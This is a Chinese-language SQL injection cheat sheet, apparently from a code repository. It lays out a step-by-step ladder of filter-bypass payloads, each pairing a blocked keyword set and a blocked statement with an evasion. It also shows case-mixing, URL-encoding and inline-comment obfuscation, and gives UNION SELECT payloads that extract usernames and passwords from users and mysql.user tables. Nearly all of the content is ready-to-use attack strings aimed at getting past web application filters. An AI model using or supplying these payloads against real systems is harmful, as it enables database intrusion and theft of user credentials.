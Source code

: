 ```sql
(select * from users where id=1  and (select 1)=(Select 0xA\*1000) uNiOn SeLeCt 1,2,version();)
```

* HEX编码

```sql
unhex(hex(schema_name))
```

* 关键词过滤

```sql
过滤关键词: and, or, union
可能正则: preg_match('/(and|or|union)/i', $id)
被拦截的语句: union select user, password from users
bypass语句: 1 || (select user from users where user_id = 1) = 'admin'

过滤关键词: and, or, union, where
被拦截的语句: 1 || (select user from users where user_id = 1) = 'admin'
bypass语句: 1 || (select user from users limit 1) = 'admin'

过滤关键词: and, or, union, where, limit
被拦截的语句: 1 || (select user from users limit 1) = 'admin'
bypass语句: 1 || (select user from users group by user_id having user_id = 1) = 'admin'

过滤关键词: and, or, union, where, limit, group by
被拦截的语句: 1 || (select user from users group by user_id having user_id = 1) = 'admin'
bypass语句: 1 || (select substr(group_concat(user_id),1,1) user from users ) = 1

过滤关键词: and, or, union, where, limit, group by, select
被拦截的语句: 1 || (select substr(gruop_concat(user_id),1,1) user from users) = 1
bypass语句: 1 || 1 = 1 into outfile 'result.txt'
bypass语句: 1 || substr(user,1,1) = 'a'

过滤关键词: and, or, union, where, limit, group by, select, 单引号
被拦截的语句: 1 || (select substr(gruop_concat(user_id),1,1) user from users) = 1
bypass语句: 1 || user_id is not null
bypass语句: 1 || substr(user,1,1) = 0x61
bypass语句: 1 || substr(user,1,1) = unhex(61)

过滤关键词: and, or, union, where, limit, group by, select, 单引号, hex
被拦截的语句: 1 || substr(user,1,1) = unhex(61)
bypass语句: 1 || substr(user,1,1) = lower(conv(11,10,36))

过滤关键词: and, or, union, where, limit, group by, select, 单引号, hex, substr
被拦截的语句: 1 || substr(user,1,1) = lower(conv(11,10,36))
bypass语句: 1 || lpad(user,7,1)

过滤关键词: and, or, union, where, limit, group by, select, 单引号, hex, substr, white space
被拦截的语句: 1 || lpad(user,7,1)
bypass语句: 1%0b||%0blpad(user,7,1)

大小写：
标准: SELECT * FROM all_tables WHERE OWNER = 'DATABASE_NAME'
Bypassed: sELecT * FrOm all_tables whERe OWNER = 'DATABASE_NAME'

URL编码：
被阻断语句: uNIoN(sEleCT 1,2,3,4,5,6,7,8,9,10,11,12)
Bypassed: uNIoN%28sEleCT+1%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%29

一些绕过语句：
0+div+1+union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A1%2C2%2Ccurrent_user
1 AND (select DCount(last(username)&after=1&after=1) from users where username='ad1min')
1'UNION/*!0SELECT user,2,3,4,5,6,7,8,9/*!0from/*!0mysql.user/*-
amUserId=1 union select username,password,3,4 from users
```